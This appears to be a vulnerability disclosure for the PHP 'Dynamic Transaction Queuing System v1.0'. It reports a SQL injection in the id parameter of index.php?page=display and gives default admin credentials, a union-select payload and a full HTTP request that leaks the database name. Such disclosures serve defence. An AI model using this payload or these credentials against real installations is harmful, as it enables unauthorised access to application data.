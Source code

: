 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

BUG_Author: xtxxueyan

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/index.php?page=display&id=

Vulnerability location:  /queuing/index.php?page=display&id=, id

dbname =queuing_db

[+] Payload: /queuing/index.php?page=display&id=-4%20union%20select%201,database(),3--+ // Leak place ---> id

```sql
GET /queuing/index.php?page=display&id=-4%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/199707400-f3a95127-c5ce-4cf9-b936-e6fe1e332880.png)
